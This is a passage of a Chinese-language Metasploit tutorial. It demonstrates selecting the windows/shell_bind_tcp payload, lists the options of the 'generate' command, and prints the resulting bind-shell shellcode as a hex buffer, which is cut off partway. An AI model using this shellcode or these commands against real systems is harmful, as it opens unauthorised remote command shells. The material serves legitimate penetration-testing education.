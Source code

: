 例如：

```shell
msf > use payload/windows/shell_bind_tcp
msf payload(shell_bind_tcp) > help
...snip...

    Command       Description
    -------       -----------
    generate      Generates a payload
    pry           Open a Pry session on the current module
    reload        Reload the current module from disk

```
下面我们查看一下 ```generate``` 命令的帮助信息：

```shell
msf payload(shell_bind_tcp) > generate -h
Usage: generate [options]

Generates a payload.

OPTIONS:

    -E        Force encoding.
    -b   The list of characters to avoid: '\x00\xff'
    -e   The name of the encoder module to use.
    -f   The output file name (otherwise stdout)
    -h        Help banner.
    -i   the number of encoding iterations.
    -k        Keep the template executable functional
    -o   A comma separated list of options in VAR=VAL format.
    -p   The Platform for output.
    -s   NOP sled length.
    -t   The output format: raw,ruby,rb,perl,pl,c,js_be,js_le,java,dll,exe,exe-small,elf,macho,vba,vbs,loop-vbs,asp,war
    -x   The executable template to use
```

为了生成无选项的 shellcode ，可以简单执行 ```generate``` 命令：

```
msf payload(shell_bind_tcp) > generate
# windows/shell_bind_tcp - 341 bytes
# http://www.metasploit.com
# VERBOSE=false, LPORT=4444, RHOST=, EXITFUNC=process, 
# InitialAutoRunScript=, AutoRunScript=
buf = 
"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52" +
"\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26" +
"\x31\xff\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d" +
"\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0" +
"\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48\x18\x8b" +
"\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff" +
"\x31\xc0\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf4\x03\x7d" +
"\xf8\x3b\x7d\x24\x75\xe2\x58\x8b\x58\x24\x01\xd3\x66\x8b" +
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44" +
"\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x58\x5f\x5a\x8b" +
"\x12\xeb\x86\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f" +
"\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29" +
"\xc4\x54\x50\x68\x29\x80\x6b\x00\xff\xd5\x50\x50\x50\x50" +
"\x40\x50\x40\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x89\xc7\x31" +
"\xdb\x53\x68\x02\x00\x11\x5c\x89\xe6\x6a\x10\x56\x57\x68" +
"\xc2\xdb\x37\x67\xff\xd5\x53\x57\x68\xb7\xe9\x38\xff\xff" +
"\xd5\x53\x53\x57\x68\x74\xec\x3b\xe1\xff\xd5\x57\x89\xc7" +
"\x68\x75\x6e\x4d\x61\xff\xd5\x68\x63\x6d\x64\x00\x89\xe3" +
```